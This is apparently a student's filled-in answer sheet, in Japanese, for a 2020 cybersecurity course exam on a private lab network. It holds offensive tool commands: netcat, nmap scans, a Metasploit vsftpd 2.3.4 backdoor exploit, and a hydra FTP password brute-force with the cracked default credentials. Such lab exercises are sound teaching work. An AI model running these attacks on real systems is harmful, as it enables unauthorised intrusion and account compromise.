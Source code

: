 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -l -p 5555
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.5 5555
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0/24
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.33.5
show options
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述
login: msfadmin password: msfadmin

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
sudo tcpdump -Z root -i eth1 -s 0 -w /tmp/dump/https.pcap port 443
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->
china
```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
80点
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
vagrant,virtualboxの使い方
インスタンスの作成の仕方
ncの使い方
nmapの使い方
netstatの使い方
msfconsoleの使い方
hydraの使い方
johnの使い方
wiresharkの使い方
「感想」
私はこの講義を通してホワイトハッカーはとても大変な職業なんだなと改めてわかりました。パスワードを解析できた喜びや達成感もありましたが、そこに行くまでにたくさんのコマンドを打って色んなツールなどを使ってやっと出来たので、大変だったという気持ちの方が大きかったです。だけどやっぱパスワード解析した時やWiresharkでパケット監視したりしてる時間や、色んな脆弱性を見つけてそこを攻撃したりしてる時はとてもワクワクして楽しかったです。これからも頑張っていきたいと思います。
```
